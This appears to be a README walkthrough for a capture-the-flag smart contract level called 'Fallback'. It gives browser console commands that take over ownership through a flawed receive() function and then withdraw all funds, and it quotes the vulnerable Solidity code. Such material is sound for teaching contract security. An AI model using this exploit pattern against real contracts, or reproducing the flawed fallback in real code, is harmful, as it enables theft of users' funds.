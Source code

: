 # Level 1 - Fallback challenge 🚧 Work In Progress 🏗
<p align="left"> <img src="https://komarev.com/ghpvc/?username=Level1&label=Repository%20views&color=0e75b6&style=flat" alt="wrappedusername" /> </p>

## Player will use browser console for this attack.
```JavaScript
await contract.contribute({value: 1});
await contract.sendTransaction({value: 1 });
await contract.owner();
await contract.withdraw();
```
In order to pass the require statement player must use function contribute() 1 wei will be enough, using the console
player calls await contract.contribute({value: 1}).
```JavaScript
await contract.contribute({value: 1});
```
Next player calls await contract.sendTransaction({value: 1}) to the fallback function receive().
```JavaScript
await contract.sendTransaction({value: 1 });
```
Player can verify ownership with await contract.owner().
```JavaScript
await contract.owner();
```
Player will now be able to withdraw all tokens using await contract.withdraw().
```JavaScript
await contract.withdraw();
```
## Code snippets from contract showing vulnerablities.
```Solidity
 /** 
 @notice This fallback function receive() is the main attack target, in order to pass the 
  require statement player must use function contribute() 1 wei will be enough, using the console
  player calls await contract.contribute({value: 1}), then player calls await contract.sendTransaction({value: 1}),
  player can verify ownership with await contract.owner(), player will now be able to withdraw all tokens. 
  */
  receive() external payable {
    require(msg.value > 0 && contributions[msg.sender] > 0);
    owner = msg.sender; 
  }
  
  /** 
  @notice This function could use a withdraw limit, but this allows player to exploit the 
  vulnerability to withdraw all funds using await contract.withdraw() to complete this level. 
  */
  function withdraw() public onlyOwner {
    owner.transfer(address(this).balance);
  }
  ```
  
